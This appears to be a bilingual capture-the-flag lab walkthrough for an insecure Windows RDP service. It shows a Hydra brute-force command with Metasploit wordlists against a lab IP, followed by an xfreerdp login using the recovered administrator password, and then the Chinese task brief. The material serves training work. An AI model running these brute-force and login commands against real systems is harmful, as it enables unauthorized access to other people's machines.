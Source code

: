 However, We can't authenticate with target system via RDP because we don't have any credentials. Performing Brute force on RDP.

[Hydra](https://www.kali.org/tools/hydra/)

`-s` PORT: if the service is on a different default port, define it here

`-s` PORT: 如果服务位于不同的默认端口，请在此处定义

`-t` TASKS:  run TASKS number of connects in parallel per target (default: 16)

`-t` TASKS: 运行 TASKS 每个目标的并行连接数（默认值：16）

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.24.86 -s 3333
```

```
xfreerdp [file] [options] [/v:<server>[:port]]

/option:<value> (specifies option with value)

/p:<password>                     Password

/u:[[<domain>\]<user>|<user>[@<domain>]]
                                      Username

/v:<server>[:port]                Server hostname

Examples:
    xfreerdp connection.rdp /p:Pwd123! /f
    xfreerdp /u:CONTOSO\JohnDoe /p:Pwd123! /v:rdp.contoso.com
    xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489
    xfreerdp /u:JohnDoe /p:Pwd123! /vmconnect:C824F53E-95D2-46C6-9A18-23A5BB403532 /v:192.168.1.100
```

```
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.24.86:3333
```

# Windows: Insecure RDP Service（Windows：不安全的 RDP 服务）
## 概述
向您提供了一台 Kali GUI 机器和一台运行易受攻击的 RDP 服务的目标机器。目标机器的 IP 地址在 Kali 机器桌面 (/root/Desktop/target) 上名为 target 的文本文件中提供。 

您的任务是使用 Kali 机器上可用的工具对正在运行的 RDP 服务及其有效端口进行指纹识别，然后使用适当的方法利用该漏洞。

注意：  rdesktop 不适用于此设置，因为它不支持 NLA。请使用 xfreerdp 连接到 RDP 服务器。

目标： 利用应用程序并检索标志！

注意：rdesktop 不适用于此设置，因为它不支持 NLA。请使用 xfreerdp 连接到 RDP 服务器。

说明：
* 你的 Kali 机器有一个 IP 地址为 10.10.XY 的接口 运行 “ip addr” 可以知道 X 和 Y 的值。 
* 目标机器的 IP 地址在文件 “/root/Desktop/target” 中提到
* 不要攻击位于 IP 地址 192.VW1 和 10.10.X.1 的网关 
* 要使用的字典：+ `/usr/share/metasploit-framework/data/wordlists/common_users.txt` + `/usr/share/metasploit-framework /data/wordlists/unix_passwords.txt`
